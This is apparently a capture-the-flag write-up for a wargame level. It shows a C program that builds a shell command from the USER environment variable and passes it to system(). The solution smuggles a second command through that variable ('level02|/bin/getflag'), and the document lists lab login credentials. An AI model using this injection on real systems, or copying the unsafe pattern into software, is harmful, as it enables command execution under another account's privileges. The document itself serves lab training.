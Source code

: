 # Level02

#### About

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.


#### Sources
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
	char *buffer;

	gid_t gid;
	uid_t uid;

	gid = getegid();
	uid = geteuid();

	setresgid(gid, gid, gid);
	setresuid(uid, uid, uid);

	buffer = NULL;

	asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
	printf("about to call system(\"%s\")\n", buffer);
	
	system(buffer);
}
```

#### Solutions
```
export USER="level02|/bin/getflag"
/home/flag02/flag02
about to call system("/bin/echo level02|/bin/getflag is cool")
You have successfully executed getflag on a target account
```

#### Remommend

Python execute os command
```
os.system(cmd)
subprocess.call(cmd, shell=True)

subprocess.Popen(cmd, shell=True)
subprocess.communicate()
```

